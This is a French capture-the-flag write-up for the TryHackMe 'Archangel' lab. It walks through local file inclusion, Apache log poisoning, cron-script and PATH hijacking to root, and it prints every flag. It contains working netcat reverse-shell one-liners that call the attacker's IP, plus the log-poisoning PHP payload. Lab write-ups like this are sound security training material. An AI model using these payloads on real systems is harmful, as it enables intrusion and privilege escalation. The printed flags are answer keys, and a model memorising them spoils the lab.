






# Archangel #

## Task 1 Deploy Machine ##

**Connect to openvpn and deploy the machine**

Vous cliquez sur start machine

```bash
openvpn votrefichier.ovpn
```

# Task 2 Get a shell #

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.138.155 archangel.thm' > /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A archangel.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 08:24 CEST
Nmap scan report for archangel.thm (10.10.138.155)
Host is up (0.069s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/10%OT=22%CT=1%CU=42532%PV=Y%DS=2%DC=T%G=Y%TM=61121BD
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=109%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   33.64 ms 10.9.0.1
2   33.87 ms archangel.thm (10.10.138.155)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.32 seconds

```

On voit 2 services dans les résultats du scan :    
Le service SSH sur le port 22.    
Le service HTTP sur le port 80.   

**Find a different hostname**



Sur la page principale du site web dans le nom de domaine de l'email on trouve un nom de domaine différent.  

Le réponse est mafialive.thm    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.138.155 mafialive.thm' > /etc/hosts"
```

On change de nom de domaine.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A mafialive.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 08:33 CEST
Nmap scan report for mafialive.thm (10.10.138.155)
Host is up (0.035s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/test.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/10%OT=22%CT=1%CU=39497%PV=Y%DS=2%DC=T%G=Y%TM=61121E1
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   33.95 ms 10.9.0.1
2   34.30 ms mafialive.thm (10.10.138.155)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.50 seconds
```

On refait un scan, il toujours les servie SSH et HTTP.   
Sur le servie HTTP, on remarque un que le site n'a pas de titre et qu'il possède un fichier robots.txt.   
Ce fichier désactive le répertoire \/test/php.    

**Find flag 1**



Sur la page principale de mafialive.thm on trouve le premier flag.   

La réponse est : thm{f0und_th3_r1ght_h0st_n4m3} 

**Look for a page under development**




On va dans la page test.php trouvée dans le fichier robots.txt.    

Réponse : test.php



On cliquant sur le bouton on peut voir qu'un fichier php est exécuter on ne pas voir le contenu, il faut l'encoder.   



On va regarder à l'intérieur du fichier test.php, on l'encode en base64 pour récupérer les sources du fichier.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3llZDwvaDE+CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycm9ib3QucGhwIj48YnV0dG9uIGlkPSJzZWNyZXQiPkhlcmUgaXMgYSBidXR0b248L2J1dHRvbj48L2E+PGJyPgogICAgICAgIDw/cGhwCgoJICAgIC8vRkxBRzogdGhte2V4cGxvMXQxbmdfbGYxfQoKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICBpZihpc3NldCgkX0dFVFsidmlldyJdKSl7CgkgICAgaWYoIWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcvdmFyL3d3dy9odG1sL2RldmVsb3BtZW50X3Rlc3RpbmcnKSkgewogICAgICAgICAgICAJaW5jbHVkZSAkX0dFVFsndmlldyddOwogICAgICAgICAgICB9ZWxzZXsKCgkJZWNobyAnU29ycnksIFRoYXRzIG5vdCBhbGxvd2VkJzsKICAgICAgICAgICAgfQoJfQogICAgICAgID8+CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPgoKCg==" | base64 -d 
	
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>

```

On voit que le fichier vérifier deux conditions, si il y a dans le lien ..\/..\/ et le chemin \/var\/www\/htm\/development_testing.     

```text
view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
```



On regarde les logs d'apache on remarque que les requêtes faite avec GET on été enregistrés.  
On peut éffectuer du log poisoning.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc mafialive.thm 80
GET /<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.228.66 1234 >/tmp/f') ?>
HTTP/1.1 400 Bad Request
Date: Tue, 10 Aug 2021 08:30:11 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at localhost Port 80</address>
</body></html>
```

On insert un reverse shell en faisant un requête.       

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute sur le bon port.   
On rafraîchie la page et c'est bon.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.138.155] 50864
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
$ ls -al /opt/helloworld.sh
-rwxrwxrwx 1 archangel archangel 66 Nov 20  2020 /opt/helloworld.sh

```

On voit que dans le crontab il y un fichier qui exécuter par crontab.   
On a les droits pour modifier le fichier.    

```bash
$ echo 'rm /tmp;f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.228.66 4444 >/tmp/f' > /opt/helloworld.sh

tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444 
listening on [any] 4444 ...
```

On insert un reverse shell dans le script.   
On écoute le bon port pour avoir le reverse shell et on attend 1 min.   

**Get a shell and find the user flag**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.138.155] 49662
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(archangel) gid=1001(archangel) groups=1001(archangel)
$ pwd    
/home/archangel
$ cat user.txt
thm{lf1_t0_rc3_1s_tr1cky}

```

On obtient un nouveau shell avec les droits de archangel.   
On lit le fichier user.txt

La réponse est : thm{lf1_t0_rc3_1s_tr1cky}  

## Task 3 Root the machine ##

**Get User 2 flag**

```bash
ls
myfiles
secret
user.txt

$ cd secret 
$ ls -al
total 32
drwxrwx--- 2 archangel archangel  4096 Nov 19  2020 .
drwxr-xr-x 6 archangel archangel  4096 Nov 20  2020 ..
-rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup
-rw-r--r-- 1 root      root         49 Nov 19  2020 user2.txt

$ cat user2.txt
thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}
```

On voit répertoire secret.  
Dans le répertoire un fichier user2.txt qui est lisible par tout le monde.   
On le regarde.   

La réponse est : thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}  

```bash
$ ls -al backup        
-rwsr-xr-x 1 root root 16904 Nov 18  2020 backup

$ python3 -m http.server
```

On a un fichier backup setuid exécutable.  
On va le récupérer pour analyse.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://mafialive.thm:8000/backup -nv
2021-08-10 10:53:43 URL:http://mafialive.thm:8000/backup [16904/16904] -> "backup" [1]
tim@kali:~/Bureau/tryhackme/write-up$ radare2 backup
Warning: run r2 with -e io.cache=true to fix relocations in disassembly
[0x000010a0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x000010a0]> afl
0x000010a0    1 46           entry0
0x000010d0    4 41   -> 34   sym.deregister_tm_clones
0x00001100    4 57   -> 51   sym.register_tm_clones
0x00001140    5 57   -> 54   sym.__do_global_dtors_aux
0x00001060    1 11           sym..plt.got
0x00001180    1 9            entry.init0
0x00001000    3 27           sym._init
0x00001230    1 5            sym.__libc_csu_fini
0x00001238    1 13           sym._fini
0x000011c0    4 101          sym.__libc_csu_init
0x00001189    1 47           main
0x00001090    1 11           sym.imp.setuid
0x00001080    1 11           sym.imp.setgid
0x00001070    1 11           sym.imp.system
[0x000010a0]> pdf @main
            ; DATA XREF from entry0 @ 0x10c1
┌ 47: int main (int argc, char **argv, char **envp);
│           0x00001189      f30f1efa       endbr64
│           0x0000118d      55             push rbp
│           0x0000118e      4889e5         mov rbp, rsp
│           0x00001191      bf00000000     mov edi, 0
│           0x00001196      e8f5feffff     call sym.imp.setuid
│           0x0000119b      bf00000000     mov edi, 0
│           0x000011a0      e8dbfeffff     call sym.imp.setgid
│           0x000011a5      488d3d5c0e00.  lea rdi, str.cp__home_user_archangel_myfiles___opt_backupfiles ; 0x2008 ; "cp /home/user/archangel/myfiles/* /opt/backupfiles" ; const char *string
│           0x000011ac      e8bffeffff     call sym.imp.system         ; int system(const char *string)
│           0x000011b1      b800000000     mov eax, 0
│           0x000011b6      5d             pop rbp
└           0x000011b7      c3             ret
[0x000010a0]> 

```

En analysant le fichier avec radar2 on remarque le fichier copie tous les fichier de \/home\/user\/archangel\/myfiles\/ à \/opt\/backupfile avec la command cp.   

```bash
echo "/bin/bash" > /tmp/cp

$ chmod +x /tmp/cp

$  export PATH=/tmp/:$PATH       

$ echo $PATH
/tmp/:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

$ cd secret	
$ ./backup
id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)

cat /root/root.txt
thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}

```

On créer un faut fichier cp.
On le rend exécutable.  
On modifie la variable PATH qui dit à l'os ou chercher les fichiers exécutables.   
Comme tmp est en premier il sera prioritaire.   
On exécute backup on a un shell avec les droits root.   
On lit le fichier root.txt

Réponse : thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}     